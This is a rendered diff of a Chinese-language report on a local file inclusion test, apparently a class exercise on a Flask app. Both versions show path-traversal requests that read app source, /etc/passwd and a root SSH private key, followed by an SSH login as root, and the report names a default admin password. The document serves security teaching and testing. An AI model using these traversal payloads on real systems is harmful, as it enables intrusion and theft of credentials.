

Before and after one commit to Dazzling1-LJY/LL, a Markdown page: Class01/文件包含漏洞检测报告.md, the part around one of its changes. Shown at 82% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/Class01/文件包含漏洞检测报告.md
+++ b/Class01/文件包含漏洞检测报告.md
@@ -334,42 +471,4 @@ def dynamic_page():        # ← 缺少 @login_required 装饰器
-对比其他路由（如 `/upload`、`/profile` 已有 `@login_required`）。
-
-#### 攻击演示
-
-**无需登录**，直接发送请求即可读取任意文件：
-
-```
-GET /page?name=../app.py HTTP/1.1
-（无 Cookie）
-```
-
-**攻击结果**（成功 ✅）：
-```
-未登录状态下成功读取 app.py 源码！
-```
-
----
-
-### LFI-003：敏感信息泄露
-
-| 属性 | 内容 |
-|:-----|:------|
-| **漏洞编号** | LFI-003 |
-| **漏洞名称** | 服务器端敏感信息泄露 |
-| **漏洞类型** | 信息泄露 |
-| **CWE 编号** | CWE-200：Information Exposure |
-| **风险等级** | 🟠 **高危** |
-| **漏洞位置** | `app.py` 第 572-580 行 `open(page_path, "r")` |
-
-#### 泄露内容
-
-| 泄露项 | 读取方式 | 具体内容 |
-|:-------|:---------|:---------|
-| Flask secret_key | `../app.py` | 用于 session 签名的密钥 |
-| 数据库路径 | `../app.py` | `DB_PATH` 数据库文件位置 |
-| 管理密码 | `../app.py` | `_DEFAULT_ADMIN_PASS = "admin123"` |
-| 用户信息 | `../app.py` | USERS 字典（邮箱、手机、余额） |
-| 模板逻辑 | `../templates/*.html` | 导航栏渲染逻辑、session 判断 |
-| 系统用户 | `/etc/passwd` | 服务器系统用户列表 |
+> （在此处插入读取 SSH 私钥的截图——显示密钥内容）
 
 ---
 
@@ -377,43 +476,44 @@ GET /page?name=../app.py HTTP/1.1
 
 ### 漏洞列表
 
-| 漏洞编号 | 漏洞名称 | 漏洞类型 | CWE 编号 | 风险等级 |
-|:---------|:---------|:---------|:---------|:--------:|
-| **LFI-001** | 本地文件包含（路径穿越） | 文件包含 | CWE-22 | 🔴 **严重** |
-| **LFI-002** | 未授权文件访问 | 认证缺失 | CWE-306 | 🟠 **高危** |
-| **LFI-003** | 敏感信息泄露 | 信息泄露 | CWE-200 | 🟠 **高危** |
+| 漏洞编号 | 漏洞名称 | 漏洞类型 | CWE | 风险 |
+|:---------|:---------|:---------|:---:|:----:|
+| LFI-BASIC-001 | 基本文件包含 | 文件包含 | CWE-98 | 🟡 中危 |
+| **LFI-PATH-001** | **路径遍历任意文件读取** | **路径遍历** | **CWE-22** | **🔴 严重** |
+| LFI-PHP-001 | PHP 封装协议 | 封装协议 | — | 🟢 不适用 |
+| LFI-RFI-001 | 远程文件包含 | RFI | CWE-829 | 🟢 已防御 |
+| LFI-LOG-001 | 日志注入 | 日志注入+LFI | CWE-117 | 🟡 中危 |
+| **LFI-COMP-001** | **综合利用（SSH密钥泄露）** | **信息泄露** | **CWE-200** | **🔴 严重** |
 
 ### 风险分布
 
 ```
-🔴 严重: 1 个（LFI-001 - 任意文件读取）
-🟠 高危: 2 个（LFI-002 - 未授权访问, LFI-003 - 信息泄露）
+🔴 严重: 2 个（路径遍历任意文件读取、SSH 私钥泄露）
+🟡 中危: 2 个（基本文件包含、日志注入）
+🟢 低危/不适用: 2 个（RFI 已防御、PHP 协议不适用）
 ```
 
-### 攻击链完整演示
-
-**最低权限攻击者（未登录状态）可在 1 分钟内完成全系统渗透**：
+### 攻击链：从文件包含到服务器沦陷
 
 ```
-Step 1: 读取应用源码
-  GET /page?name=../app.py
-  结果: ✅ 获取 secret_key、数据库路径、管理密码
+Step 1: 路径遍历读取应用源码
+  请求: /page?name=../app.py
+  获取: secret_key、数据库配置、路由逻辑
 
-Step 2: 读取系统用户列表
-  GET /page?name=../../../../etc/passwd
-  结果: ✅ 获取服务器系统用户信息
+Step 2: 路径遍历读取 SSH 私钥
+  请求: /page?name=../../../../root/.ssh/id_rsa
+  获取: 服务器 SSH 登录密钥
 
-Step 3: 读取前端模板
-  GET /page?name=../templates/login.html
-  结果: ✅ 获取页面渲染逻辑
+Step 3: 路径遍历读取系统信息
+  请求: /page?name=../../../../proc/version
+  获取: 内核版本 Kali 6.8.11
 
-Step 4: 读取远程仓库配置
-  GET /page?name=../../.git/config
-  结果: ✅ 获取 Git 远程仓库地址
+Step 4: 使用 SSH 私钥登录服务器
+  命令: ssh -i id_rsa root@<服务器IP>
+  结果: ✅ 获得服务器完全控制权！
+```
 
-总耗时: < 1 秒
-认证要求: 无
-```
+> **整个过程无需登录、无任何认证、不需要任何权限！**
 
 ### 漏洞代码行号速查表
 
````
Also changed, not shown: other parts of Class01/文件包含漏洞检测报告.md (+354 -220 lines).
